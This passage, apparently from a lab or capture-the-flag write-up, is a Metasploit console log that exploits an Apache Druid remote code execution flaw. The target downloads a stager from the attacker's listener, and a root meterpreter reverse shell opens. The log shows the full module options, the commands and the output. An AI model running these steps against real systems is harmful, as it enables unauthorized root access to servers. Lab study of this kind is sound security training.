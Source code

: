 ```bash
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path of Apache Druid
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux (dropper)



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/apache_druid_js_rce) > set LHOST 10.10.14.185
LHOST => 10.10.14.185
msf6 exploit(linux/http/apache_druid_js_rce) > set RHOSTS 10.129.220.12
RHOSTS => 10.129.220.12
msf6 exploit(linux/http/apache_druid_js_rce) > run
[*] Started reverse TCP handler on 10.10.14.185:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Using URL: http://10.10.14.185:8080/OUUhApkFM6
[*] Client 10.129.220.12 (curl/7.68.0) requested /OUUhApkFM6
[*] Sending payload to 10.129.220.12 (curl/7.68.0)
[*] Sending stage (3045380 bytes) to 10.129.220.12
[*] Meterpreter session 1 opened (10.10.14.185:4444 -> 10.129.220.12:37526) at 2025-01-28 13:23:21 +0100
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > ls
Listing: /root/druid
====================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100644/rw-r--r--  59403  fil   2020-03-31 03:52:05 +0200  LICENSE
100644/rw-r--r--  69091  fil   2020-03-31 03:52:06 +0200  NOTICE
```